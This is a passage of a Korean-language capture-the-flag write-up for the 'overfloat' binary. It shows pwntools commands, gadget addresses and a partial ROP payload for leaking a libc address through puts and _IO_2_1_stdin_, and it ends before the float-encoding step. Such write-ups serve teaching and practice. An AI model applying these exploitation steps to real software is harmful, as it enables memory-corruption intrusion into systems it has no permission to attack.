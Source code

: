 leak에 이용할 수 있을만한 출력 함수가 무엇이 있는지 찾아볼까요? 다음은 .got 영역입니다.
{{< figure src="https://user-images.githubusercontent.com/19237789/58784594-c2fcd080-861e-11e9-829f-84ddbd2d193c.png" alt=".got.plt" >}}
puts, printf가 있네요.
둘 중 아무거나 써도 될 거 같아요.
저는 puts를 썼어요.

{{< highlight python >}}
>>> overfloat = ELF('./overfloat')
>>> hex(overfloat.plt.puts)
'0x400690'
{{< /highlight >}}

그리고 puts의 매개변수로 무얼 넘겨야 할까요?
바로 라이브러리의 주소가 나올만한 것들이겠죠?
.got 영역에 있는 함수나 _IO_2_1_stdin\_를 매개변수로 넘기면 라이브러리 주소인 0x7fxxxxxxxxxx가 출력될 것입니다.
저는 _IO_2_1_stdin\_를 puts의 매개변수로 잡았습니다.

{{< highlight python >}}
>>> libc = ELF('./libc-2.27.so')
>>> hex(libc.sym._IO_2_1_stdin_)
'0x3eba00'
{{< /highlight >}}

_IO_2_1_stdin\_의 주소를 보니 0x00으로 끝나는 것을 주의해주세요!
문자열 출력을 위해서 stdin@GLIBC_2_2_5 +1을 해줘야만 해요.

{{< highlight python >}}
>>> hex(overfloat.got.stdin + 1)
'0x602091'
{{< /highlight >}}

여기까지가 _IO_2_1_stdin\_을 출력하기 위해 필요한 가젯(Gadget)을 모은 것입니다.
오우! 한가지 빼먹은 것이 있었네요.
이번 바이너리는 64비트 ELF입니다.
함수 호출 규약 fastcall에서는 함수의 첫 번째 매개변수를 전달하는 방식이 rdi 레지스터를 이용한다는 것입니다.
간단히 pwntools로 가젯을 모았어요.

{{< highlight python >}}
>>> rop = ROP(overfloat)
>>> hex(rop.rdi.address)
'0x400a83'
{{< /highlight >}}

이제야 _IO_2_1_stdin\_을 출력하기 위해 필요한 가젯을 다 모았군요.
일반적인 페이로드라면 다음과 같았겠죠.

{{< highlight python >}}
payload = ''
payload += p64(rop.rdi.address)
payload += p64(overfloat.got.stdin + 1)
payload += p64(overfloat.plt.puts)
{{< /highlight >}}

하지만 overfloat 바이너리는 float형으로 메모리를 덮는다는 사실!
